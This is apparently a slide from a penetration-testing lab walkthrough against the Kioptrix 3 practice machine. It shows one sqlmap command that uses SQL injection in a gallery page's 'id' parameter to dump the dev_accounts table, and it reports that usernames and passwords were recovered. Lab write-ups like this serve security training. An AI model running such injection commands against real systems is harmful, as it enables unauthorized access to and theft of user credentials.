

USING SQLMAP
TO GET SOME  THE DATA FROM DEV_ACCOUNTS
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1%27&sort=photoid#photos" -p id -D gallery -T dev_accounts --dump

WE GOT SOME USERNAMES AND PASSWORDS